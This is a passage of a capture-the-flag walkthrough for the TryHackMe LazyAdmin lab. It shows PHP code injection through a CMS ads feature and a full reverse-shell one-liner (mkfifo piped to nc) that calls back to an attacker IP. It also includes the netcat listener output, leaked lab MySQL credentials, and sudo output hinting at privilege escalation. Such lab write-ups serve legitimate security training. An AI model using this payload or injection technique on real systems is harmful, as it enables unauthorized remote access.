 After succesful login, turned the site 'on'. As mentioned on the homepage. Hopefully this way we can return some malicious code. Potentially a PHP reverse shell. Though note, there is a MYSql execute option which can test after if can't execute malicious code.

### Ads code

Found that "ads" can be added to the site. Lets test some rogue PHP script.

```
<?php echo 1+1; ?>
```

On saving, site generates some JS code. Navigating to the SRC of the script created returns:
```
<!--
	document.write('2');
//-->
```

Looks like PHP code is executed here, as the `1+1` was calculated. 

Lets test some other PHP, we can get shell with this. 

First listen on attacker machine with `nc -lvp 4444`. Then inject the following PHP code for reverse netcat shell.

```
<?php echo shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.219 4444 >/tmp/f");
```

On navigating to the generated ad's src script, we achieve shell, as the PHP executed.

```
kali@kali:~/Desktop/TryHackMe/lazyadmin$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.11.8.219] from target.thm [10.10.221.127] 53918
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

```

We can than find the user flag in `/home/itguy/user.txt`. 

### 2. What is the root flag?

We can also `cat mysql_login.txt`, and reveal some credentials for the MySQL server.

`rice:randompass`

There also a Perl script in `/home/itguy` called `/backup.pl`. Which has an interesting interacting with `/etc/copy.sh`.

On running `sudo -l` we see it has root privileges.

```
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

